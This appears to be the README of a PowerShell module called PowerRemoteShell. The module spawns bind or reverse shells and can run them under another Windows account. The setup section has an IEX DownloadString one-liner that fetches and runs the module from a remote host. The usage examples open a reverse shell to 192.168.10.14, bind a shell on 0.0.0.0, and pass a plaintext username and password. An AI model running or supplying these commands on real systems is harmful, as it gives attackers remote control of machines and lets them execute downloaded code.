

# PowerRemoteShell

A PowerShell module that can also function as a standalone script, enabling users to spawn either a bind or reverse shell. Additionally, it includes the capability to authenticate the shell session as a different Windows user.

## Quick Setup

```powershell
IEX (Get-Content .\PowerRemoteShell.psm1 -Raw)
```

Or

```powershell
IEX (New-Object Net.WebClient).DownloadString('<protocol>://<host>:<port>/<uri>/PowerRemoteShell.psm1')
```

Or Invoke-🧠

## Usage

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Address (*)        | String           | None       | For 'Reverse' mode, this specifies the remote machine to connect to (e.g., a Netcat listener). For 'Bind' mode, this defines the interface to bind to (e.g., 0.0.0.0 to listen on all interfaces). |
| Port (*)           | Integer (Word)   | None       | For 'Reverse' mode, this specifies the port on the remote machine to connect to. For 'Bind' mode, this defines the port to listen on. |
| Mode (*)           | Choice           | None       | Defines the type of remote shell: 'Reverse' (initiates a connection back to a listener) or 'Bind' (opens a port and waits for an incoming connection). |
| ShellKind          | Choice           | PowerShell | Specifies the shell application to capture and redirect to the network socket. Options include 'PowerShell', 'Cmd', or the default shell defined by the 'COMSPEC' environment variable. |
| Username           | String           | None       | An existing Microsoft Windows local user account.  |
| Password           | String           | None       | Password of specified user account. |
| Domain             | String           | None       | specify the domain of the user account under which the new process is to be started. |

`*` = Mandatory Options

### Examples

```powershell
# Listen on all interfaces (0.0.0.0) on port 2801 and spawn a command-line shell as the current user.
Invoke-RemoteShell -Address 0.0.0.0 -Port 2801 -Mode "bind" -ShellKind "cmd"

# Connect to the remote listener at 192.168.10.14:1403 and spawn a PowerShell shell as the current user.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "reverse"

# Listen on 192.168.10.14 (only) on port 1403 and spawn a PowerShell shell as the user 'darkcodersc'.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "bind" -Username "darkcodersc" -Password "mypassword"
```



Demonstrate a bind shell at the top, running as the currently logged-in user, and a reverse shell at the bottom, connecting as the user 'dark'.
